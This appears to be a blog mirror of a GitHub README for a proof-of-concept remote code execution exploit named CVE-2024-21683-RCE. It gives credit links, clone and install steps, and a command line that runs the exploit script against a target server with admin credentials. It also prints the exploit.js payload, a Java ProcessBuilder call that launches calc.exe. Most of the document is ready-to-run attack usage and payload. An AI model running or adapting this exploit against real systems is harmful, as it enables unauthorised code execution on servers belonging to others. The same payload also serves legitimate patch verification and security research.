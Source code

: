 ```yaml
---
title: CVE-2024-21683-RCE
date: 2024-05-26T12:18:08+08:00
draft: False
featuredImage: https://images.unsplash.com/photo-1716146395242-203dbd25042a?ixid=M3w0NjAwMjJ8MHwxfHJhbmRvbXx8fHx8fHx8fDE3MTY2OTY5NDJ8&ixlib=rb-4.0.3
featuredImagePreview: https://images.unsplash.com/photo-1716146395242-203dbd25042a?ixid=M3w0NjAwMjJ8MHwxfHJhbmRvbXx8fHx8fHx8fDE3MTY2OTY5NDJ8&ixlib=rb-4.0.3
---
```


# [W01fh4cker/CVE-2024-21683-RCE](https://github.com/W01fh4cker/CVE-2024-21683-RCE)

# CVE-2024-21683-RCE

# Credit

>https://x.com/realalphaman_  

>https://realalphaman.substack.com/p/quick-note-about-cve-2024-21683-authenticated  

# Usage

```shell
git clone https://github.com/W01fh4cker/CVE-2024-21683-RCE
cd CVE-2024-21683-RCE
pip install requests bs4
python CVE-2024-21683.py -u http://192.168.198.1:8090 -au admin -ap admin -f exploit.js -n test -p http://127.0.0.1:8083
```

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240523170746510.png)

`exploit.js`:

```java
new java.lang.ProcessBuilder["(java.lang.String[])"](["calc.exe"]).start()
```

